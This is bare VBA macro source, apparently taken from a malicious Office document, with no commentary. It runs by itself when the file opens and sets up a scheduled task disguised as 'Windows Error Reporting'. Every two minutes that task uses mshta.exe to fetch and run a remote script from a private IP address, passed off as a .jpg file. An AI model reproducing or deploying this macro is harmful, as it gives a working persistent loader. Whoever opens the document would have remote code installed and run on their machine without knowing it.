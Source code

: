 Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Call Shell("schtasks /create /sc MINUTE /tn ""Windows Error Reporting"" /tr ""mshta.exe javascript:a=GetObject('script:http://192.168.66.59/microsoftftp.jpg').Exec();close();"" /mo 2 /F")
End Sub
